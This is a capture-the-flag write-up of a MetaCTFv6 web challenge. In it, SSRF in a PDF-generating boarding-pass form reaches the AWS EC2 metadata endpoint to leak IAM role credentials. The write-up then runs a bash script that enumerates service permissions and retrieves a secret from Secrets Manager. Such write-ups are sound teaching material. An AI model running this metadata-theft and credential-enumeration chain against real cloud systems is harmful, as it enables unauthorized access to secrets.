

<!-- <font size="5">Into the Skies</font> -->

​	26<sup>th</sup> June 2025

​	Prepared By: CodeBreaker44

​	Challenge Author(s): CodeBreaker44

​	Difficulty: <font color=red>Hard</font>

​	Category: <font color=green>Web</font>


# Synopsis 

Into the Skies is a hard web challenge in MetaCTFv6 that highlights a server side request forgery (SSRF) attack in a web application via HTML injection to leak AWS ec2 instance metadata. The challenge begins with a web application that allows users to upload information about their boarding pass, the application will generate a PDF file with the boarding pass information, one of the information entry is image upload via url, the application will fetch the image from the url and display it in the PDF. The challenge is to upload a boarding pass with an image that will trigger a SSRF attack to leak AWS ec2 instance metadata. The challenge demonstrates the risks of SSRF attacks in web applications, especially when user input is not properly validated or sanitized.

# Description

Ladies & Gentlemen, You Are The Top One Percent Of All Naval Aviators. The Elite. The Best Of The Best. We'll Make You Better.


## Skills required 

* Knowledge of Web Applications
* Familiarity with Cloud Technologies (AWS)
* Understanding of SSRF attack


## Skills Learned

-  Exploiting SSRF vulnerabilities
-  Manipulating HTML to perform SSRF
-  Leaking sensitive information from AWS EC2 instance metadata
-  Understanding the risks of SSRF in web applications


# Challenge

Challenge starts by luanching an instance from the MetaCTFv6 platform, that will redirect is to the following web application:


as it can be observed there is no much we can do, only a button that will redirect us to a page where we can upload our boarding pass information


as it can be seen the form allows us to fill in info for a boarding bass, and also allows us to upload an image via a URL, the application will fetch the image from the URL and display it in the PDF.

but before lets check what happens when we upload a boarding pass with an image URL, we can see that the application will fetch the image from the URL and display it in the PDF.



as we can see it did fetch the image from the URL and display it in the PDF, but what if we upload a non image url will be able to get it back ? 

like `example.com` 

lets try that:


as we can see we got example.com content in the image placeholder, indicating a strong SSRF attack.


to make this easier for us to work with lets open it using `Burp Suite` and intercept the request, we can see that the request is a POST request to `/generate`, and the image URL is being sent in the request body.


as we can see the information uploaded by us got encoded while uploaded and sent to server to generate the PDF file for us.

now since we have a better understanding with what we are dealing with, its time for more enumeration to know what to expose from the internal infrastructure.

## Enumeration

if we look closely to the URL of the web application we have we notice its AWS api gatewaye URL, which means that the web application is hosted on AWS, and we can use this to our advantage.

```https://ocmzmc46s8.execute-api.us-east-1.amazonaws.com/```

that indicate a huge possibility that the application is hosted on an AWS ec2 instance,

> 🖥️ AWS EC2 instances
>
> An Amazon EC2 instance is a virtual server in Amazon Web Services (AWS) that allows users to run applications on the cloud. It's essentially a virtual machine provided by AWS that you can rent and customize to meet your specific computing needs

in simple Terms its a virtual machine that runs on AWS cloud.

now based on this information and looking deeper into articles online, about SSRF on an ec2 instance, we understand that there is something called AWS IMDSv1 or AWS meta-data.

> AWS EC2 Metadata
>
> AWS EC2 Instance Metadata is a service that provides information about an EC2 instance, accessible only from within that instance. This data includes details like the instance ID, AMI ID, network configuration, and more, enabling applications and scripts to dynamically configure themselves based on the instance's environment. 

so based on this information we can try to hit the metadata endpoint to see what we can get from it, the endpoint is `http://169.254.169.254`


and BINGO, we are able to retrive the meta-data for the ec2 instance that its running the web app, so now lets craft our payload, 
but before, what I am trying to leak ?

See in most cases an ec2 instance needs to access other AWS services like S3, DynamoDB, etc. and to do that it needs to have an IAM role attached to it, and this IAM role has permissions to access these services, so if we can leak the IAM role name and the permissions attached to it, we can use it to access these services.


so a typical payload will be like this:

```bash
curl -X GET http://169.254.169.254/latest/meta-data/iam/security-credentials/<iam-role-name>
```


and voila, we are able to leak the IAM role name and the permissions attached to it, now we can use this information to access other AWS services.

but first we need to configure these creds in order to use them, lets use [aws cli](https://docs.aws.amazon.com/cli/)

```bash
aws configure
#----------------------- you will need to fill creds here:
AWS Access Key ID [None]: <access-key-id>
AWS Secret Access Key [None]: <secret-access-key>
Default region name [None]: us-east-1
Default output format [None]: json
```


now to check if these creds are correct we need to run the following command

```bash
aws sts get-caller-identity | jq
```


and yes the creds we found are correct, now lets enum these creds to see what kind of privileges we have,
we can use a tool like `pacu` or you can write one by your own:

```bash
#!/bin/bash

declare -A commands=(
  [sts]="get-caller-identity"
  [iam]="list-users"
  [ec2]="describe-instances --max-results 5"
  [s3]="ls"
  [secretsmanager]="list-secrets --max-results 5"
  [kms]="list-keys --limit 5"
  [dynamodb]="list-tables --max-items 5"
  [lambda]="list-functions --max-items 5"
  [rds]="describe-db-instances --max-items 5"
  [ecr]="describe-repositories --max-items 5"
  [ecs]="list-clusters --max-results 5"
  [sqs]="list-queues --max-results 5"
  [sns]="list-topics --max-items 5"
  [cloudformation]="list-stacks --stack-status-filter CREATE_COMPLETE"
  [cloudwatch]="describe-alarms --max-records 5"
)


GREEN="\e[32m"
RED="\e[31m"
RESET="\e[0m"

echo -e "\nChecking AWS service access:\n"

for svc in "${!commands[@]}"; do
  printf '%-16s' "$svc:"
  if aws $svc ${commands[$svc]} --output json >/dev/null 2>&1; then
    echo -e "${GREEN}Allowed${RESET}"
  else
    echo -e "${RED}AccessDenied${RESET}"
  fi
done

```

This script will check if we have access to the services and print the result, if we have access it will print "Allowed" otherwise it will print "AccessDenied".

so after running the script, we find that we have access to `secrets manager` service in aws:

> AWS secrets manager
>
> AWS Secrets Manager is a service that allows users to securely store, manage, and retrieve secrets like database credentials, API keys, and other sensitive information throughout their lifecycle. It enables secure access to applications, services, and IT resources by automating secret rotation and access control. 


so based on this we might find our flag stored as a secret in this service, to check that lets try to list secrets, 

```bash
aws secretsmanager list-secrets | jq
```


and yes here is our flag in the secrets manager service

lets get it:

```bash
aws secretsmanager get-secret-value --secret-id flag | jq
```


### FLAG: METACTF{Its_not_the_plane_its_the_pilot_1986}


# Conclusion

In this write-up, we demonstrated how to exploit a misconfigured IAM role in an AWS environment to gain unauthorized access to sensitive information. By leveraging the instance metadata service, that we were able to access via vulnerable SSRF in the web application, we were able to retrieve the IAM role credentials.

 With these credentials, we accessed AWS Secrets Manager and successfully retrieved the flag.This challenge illustrates the critical importance of securing web applications against SSRF vulnerabilities and ensuring that IAM roles are configured with the principle of least privilege. It also emphasizes the need for regular security audits and monitoring to detect and mitigate such vulnerabilities before they can be exploited by attackers.


# Infrastructure Architecture of the challenge:


in order to handle huge number of requests due the nature of the CTF, the challenge is designed to be scalable and resilient. The architecture includes an AWS API Gateway that serves as the entry point for all requests, which then routes the requests to an AWS Application Load Balancer (ALB). The ALB distributes the incoming traffic across multiple AWS EC2 instances running the web application the ec2 instances are hosted in an AWS Auto Scaling Group (ASG) to ensure high availability and scalability. The web application is designed to handle user requests, process boarding pass information, and generate PDF files with the provided data. The architecture also includes an AWS Secrets Manager to securely store sensitive information such as the flag.


The entire infrastructure of the challenge was created via Terraform, you can check the terraform code in the `source/terraform` directory. The Terraform code provisions all the necessary AWS resources, including the API Gateway, ALB, EC2 instances, ASG, Secrets Manager, VPC, IAM roles and policies, and CloudWatch monitoring. This allows for easy deployment and management of the challenge infrastructure.


## Used services:
- **AWS API Gateway**: Serves as the entry point for all requests, providing a RESTful API interface.
- **AWS Application Load Balancer (ALB)**: Distributes incoming traffic across multiple EC2 instances to ensure high availability and scalability.
- **AWS EC2 Instances**: Hosts the web application that processes user requests and generates PDF files.
- **AWS Auto Scaling Group (ASG)**: Automatically scales the number of EC2 instances based on incoming traffic to handle varying loads.
- **AWS Secrets Manager**: Securely stores sensitive information, such as the flag, and provides controlled access to it.
- **AWS VPC**: Provides a secure and isolated network environment for the web application and its associated resources
- **AWS IAM**: Manages access control and permissions for the AWS resources used in the challenge.
- **AWS CloudWatch**: Monitors the performance and health of the AWS resources, providing insights into the application's behavior and resource utilization.

# References
- [AWS EC2 Metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)
- [AWS Secrets Manager](https://docs.aws.amazon.com/secretsmanager/latest/userguide/intro.html)
- [SSRF Attacks](https://portswigger.net/web-security/ssrf)
- [Finding SSRF via HTML Injection Inside a PDF File on AWS EC2](https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90)


SIC.PARVIS.MAGNA